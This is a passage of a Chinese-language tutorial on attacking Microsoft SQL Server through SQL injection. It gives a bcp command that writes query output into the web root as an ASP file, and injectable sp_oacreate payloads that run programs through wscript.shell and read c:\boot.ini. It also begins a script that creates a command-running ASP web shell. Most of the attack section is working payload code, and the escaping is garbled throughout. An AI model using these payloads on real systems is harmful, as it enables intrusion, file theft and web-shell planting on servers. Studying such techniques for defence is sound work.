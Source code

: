 既然 bcp可以从SQL服务进程外访问数据库，它需要登陆。这代表获得权限不是很困难，既然攻击者能建立，或者利用整体安全机制(如果服务器配置成可以使用它)。

命令行格式如下：

bcp &quot;select * from text..foo&quot; queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar

&amp;apos;S&amp;apos;参数为执行查询的服务器，&amp;apos;U&amp;apos;参数为用户名，&amp;apos;P&amp;apos;参数为密码，这里为&amp;apos;foobar&amp;apos;

[ActiveX automation scripts in SQL SERVER]

SQL SERVER中提供了几个内置的允许创建ActiveX自动执行脚本的存储过程。这些脚本和运行在windows脚本解释器下的脚本，或者ASP脚本程序一样--他们使用VBScript或javascript书写，他们创建自动执行对象并和它们交互。一个自动执行脚本使用这种方法书写可以在 Transact-SQL中做任何在ASP脚本中，或者WSH脚本中可以做的任何事情。为了阐明这鞋，这里提供了几个例子：

（1）这个例子使用&amp;apos;wscript.shell&amp;apos;对象建立了一个记事本的实例：

wscript.shell example

declare @o int

exec sp_oacreate &amp;apos;wscript.shell&amp;apos;,@o out

exec sp_oamethod @o,&amp;apos;run&amp;apos;,NULL,&amp;apos;notepad.exe&amp;apos;

我们可以通过指定在用户名后面来执行它：

Username：&amp;apos;; declare @o int exec sp_oacreate &amp;apos;wscript.shell&amp;apos;,@o out exec sp_oamethod @o,&amp;apos;run&amp;apos;,NULL,&amp;apos;notepad.exe&amp;apos;-

(2)这个例子使用&amp;apos;scripting.filesystemobject&amp;apos;对象读一个已知的文本文件：

--scripting.filesystemobject example - read a known file

declare @o int, @f int, @t int, @ret int

declare @line varchar(8000)

exec sp_oacreate &amp;apos;scripting.filesystemobject&amp;apos;, @o out

exec sp_oamethod @o, &amp;apos;opentextfile&amp;apos;, @f out, &amp;apos;c:\boot.ini&amp;apos;, 1

exec @ret=sp_oamethod @f,&amp;apos;readline&amp;apos;,@line out

while(@ret=0)

begin

print @line

exec @ret=sp_oamethod @f,&amp;apos;readline&amp;apos;,@line out

end

(3)这个例子创建了一个能执行通过提交到的任何命令：

-- scripting.filesystemobject example - create a &amp;apos;run this&amp;apos;.asp file

declare @o int,@f int,@t int,@ret int

exec sp_oacreate &amp;apos;scripting.filesystemobject&amp;apos;,@o out

exec sp_oamethod @o,&amp;apos;createtextfile&amp;apos;,@f out,&amp;apos;c:\inetpub\wwwroot\foo.asp&amp;apos;,1
